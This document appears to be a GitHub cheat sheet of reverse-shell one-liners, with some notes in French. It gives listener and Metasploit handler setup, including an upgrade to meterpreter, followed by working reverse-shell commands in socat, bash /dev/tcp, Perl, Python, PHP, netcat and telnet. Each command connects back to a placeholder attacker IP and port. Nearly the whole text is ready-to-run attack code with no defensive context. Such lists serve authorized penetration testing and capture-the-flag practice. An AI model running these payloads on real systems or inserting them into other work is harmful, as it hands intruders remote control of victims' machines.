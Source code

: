 # Cheatsheet for Reverse-shell one-liner

## Table of contents
* [Socat](#socat)
* [Bash](#bash)
* [Perl](#perl)
* [Python](#python)
* [PHP](#php)
* [Netcat](#netcat)
* [Telnet](#telnet)

## Spawn a handler
### Netcat
```bash
nc -lvp <PORT>
```

### Socat
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444 
```

### Metasploit
```bash
msf5 > use exploit/multi/handler
msf5 > set PAYLOAD <Payload name>
msf5 > set LHOST <LHOST value>
msf5 > set LPORT <LPORT value>
msf5 > set ExitOnSession false
msf5 > exploit -j -z
```
Shell will be spawn as a background session. You can then upgrade to meterpreter using another handler :
```bash
msf5 > use post/multi/manage/shell_to_meterpreter
msf5 > set SESSION <SESSION_ID>
msf5 > exploit
```

## Reverse-shell one-liner
### Socat <a name="socat"></a>
Full interactive shell !!!
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>
```

### Bash <a name="bash"></a>
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
```bash
exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done
```
```bash
exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0
```
```bash
0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
```

### Perl <a name="perl"></a>
Version dépendante de « /bin/sh » :
```bash
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Version indépendante de « /bin/sh » pour Linux (avec fork) :
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python <a name="python"></a>
Full Python :
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Python with system call to bash :
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### PHP <a name="php"></a>
```bash
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

### Netcat <a name="netcat"></a>
```bash
nc -e /bin/sh <IP> <PORT>
```
```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc <IP> <PORT> > f
```
```bash
rm -f x; mknod x p && nc <IP> <PORT> 0<x | /bin/bash 1>x
```

### Telnet <a name="telnet"></a>
```bash
telnet <IP> <PORT1> | /bin/bash | telnet <IP> <PORT2>
```
```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet <IP> <PORT> > f
```
```bash
rm -f x; mknod x p && telnet <IP> <PORT> 0<x | /bin/bash 1>x
```